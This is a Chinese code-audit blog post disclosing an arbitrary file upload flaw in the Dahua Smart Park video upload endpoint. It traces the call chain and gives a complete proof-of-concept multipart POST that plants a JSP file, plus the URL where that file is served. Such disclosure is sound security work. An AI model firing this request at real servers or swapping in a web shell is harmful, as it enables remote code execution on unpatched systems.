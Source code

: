 ```yaml
---
title: 大华智慧园区video接口存在任意文件上传漏洞
date: 2024-11-20 17:23:00 +0800
img_path: /
categories: [肾透, 代码审计]
tags: [肾透, 代码审计]      

---
```


## 一、大华智慧园区video接口存在任意文件上传漏洞

### 漏洞接口

```java
com.dahua.cardsolution.controller.publishing.MaterialController#addVideoFile()
```

### 漏洞触发流程

```java
MaterialController#addVideoFile()
	-> this.materialService.addVideoFile(materialFile)
		-> this.fileManageService.sendFile(directory, fileName, videoFile.getContent())
			-> FileUtil.writeBytes(sourceBytes, filePath, fileName)
```

![image-20241120123457908](assets/image-20241120123457908.png)

在`addVideoFile`中会获取上传文件的名字和内容然后进入`fileManageService.sendFile()`方法

![image-20241120123557596](assets/image-20241120123557596.png)

`sendFile()`会进入`FileUtil.writeBytes()`将文件写入服务器。

![image-20241120124237790](assets/image-20241120124237790.png)

写入路径是`/opt/ftp/publishingImg/VIDEO/xxxx`。

![image-20241120124142967](assets/image-20241120124142967.png)

但是可以看到其实`webapps/publishingImg`是链接到`/opt/ftp/publishingImg`所以是可以访问到的。

![image-20241120124500782](assets/image-20241120124500782.png)

```http
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 10.30.100.144
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarys7AsdKmiEBicMGLb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 1970

------WebKitFormBoundarys7AsdKmiEBicMGLb
Content-Disposition: form-data; name="Filedata"; filename="11.jsp"

<% out.println("Hello"); %>
------WebKitFormBoundarys7AsdKmiEBicMGLb--

```

![image-20241120114707047](assets/image-20241120114707047.png)

路径: `/publishingImg/VIDEO/241120131714121215.jsp`

![image-20241120123400183](assets/image-20241120123400183.png)

### 
